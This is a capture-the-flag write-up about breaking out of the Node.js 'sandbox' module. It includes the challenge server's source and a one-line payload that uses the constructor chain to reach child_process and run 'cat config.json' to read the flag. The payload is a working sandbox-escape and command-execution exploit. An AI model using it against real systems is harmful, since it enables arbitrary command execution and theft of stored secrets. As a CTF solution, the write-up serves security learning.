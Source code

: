 # Day 10: >_ Run, Node, Run

In this challenge we can run JavaScript in a sandbox environment. The NodeJS server uses the following code:

```javascript
const {flag, port} = require("./config.json");
const sandbox = require("sandbox");
const app = require("express")();

app.use(require('body-parser').urlencoded({ extended: false }));

app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
app.get("/code", (req, res) => res.sendFile(__filename));

app.post("/run", (req, res) => {

	if (!req.body.run) {
		res.json({success: false, result: "No code provided"});
		return;
	}

	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";

	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));

});

app.listen(port);
```

The goal is to read the contents of the `config.json`. We won't be able to find the correct variable name because of the
randomstring part. So we have to break out of this sandbox. We can check the GitHub Issues if there's a way to
accomplish this. And of course [there's a way](https://github.com/gf3/sandbox/issues/50). Now we just have to craft a
malicious input:

```javascript
new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("child_process").execSync("cat config.json")
```
